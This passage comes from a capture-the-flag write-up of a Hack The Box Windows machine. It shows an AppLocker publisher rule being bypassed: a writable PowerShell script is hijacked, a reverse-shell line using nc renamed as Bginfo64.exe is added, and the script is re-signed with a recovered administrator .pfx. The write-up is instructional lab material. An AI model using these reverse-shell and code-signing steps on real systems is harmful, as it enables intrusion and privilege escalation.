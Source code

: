 So this is from the Administrator. Since we have a `.pfx` from the administrator, we can actually use this. In the AppLocker conditions, we can see the subject match some conditions:

<pre class="language-markup" data-overflow="wrap"><code class="lang-markup">&#x3C;RuleCollection Type="Script" EnforcementMode="Enabled">&#x3C;FilePublisherRule Id="12bce21d-8da4-4f93-ab24-eeb9ad0bcc6d" Name="Signed by CN=ADMINISTRATOR, CN=USERS, DC=WINDCORP, DC=HTB" Description="" UserOrGroupSid="S-1-1-0" Action="Allow">
<strong>&#x3C;FilePublisherCondition PublisherName="CN=ADMINISTRATOR, CN=USERS, DC=WINDCORP, DC=HTB" ProductName="*" BinaryName="*">
</strong></code></pre>

This means that we can run 'any program' if we import this into the Certificate Store of the machine. The question is, what script do we run?

### Script Hijack -> Shell

I was still curious about the `Get-bADpasswords.ps1` script, what was the point of it? I checked the ACLs of it, and found that I could overwrite it:

```
c:\Get-bADpasswords>icacls Get-bADpasswords.ps1
icacls Get-bADpasswords.ps1
Get-bADpasswords.ps1 WINDCORP\ITDep:(I)(M)
                     NT AUTHORITY\SYSTEM:(I)(F)
                     BUILTIN\Administrators:(I)(F)
                     BUILTIN\Users:(I)(RX)
```

We have Modify Access to this file. So in this case, we can replace it with our own AND then sign it using the certificate. I downloaded it, and made a small edit at the top to use our `Bginfo64.exe` file (which is still `nc.exe`) to gain another reverse shell.

```
C:\share\Bginfo64.exe -e cmd.exe 10.10.14.13 5555
```

Afterwards, we can re-upload this to SMB and use `copy` to overwrite the existing script. Now, we need to sign the script.&#x20;

{% embed url="https://codesigningstore.com/how-to-sign-a-powershell-script" %}

Using the above resource, we can run these commands to sign it:

{% code overflow="wrap" %}
```powershell
$pass = ConvertTo-SecureString -String 'abceasyas123' -AsPlainText -Force
$pfx = Import-PfxCertificate -FilePath 'C:\$Recycle.bin\S-1-5-21-3783586571-2109290616-3725730865-2663\$RLYS3KF.pfx' -Password $pass -CertStoreLocation Cert:\CurrentUser\My
Get-ChildItem Cert:\CurrentUser\My -CodeSigningCert
Set-AuthenticodeSignature .\Get-bADpasswords.ps1 $pfx
```
{% endcode %}

This script should let us know that we have imported it:

<figure><img src="../../../.gitbook/assets/image (1152).png" alt=""><figcaption></figcaption></figure>
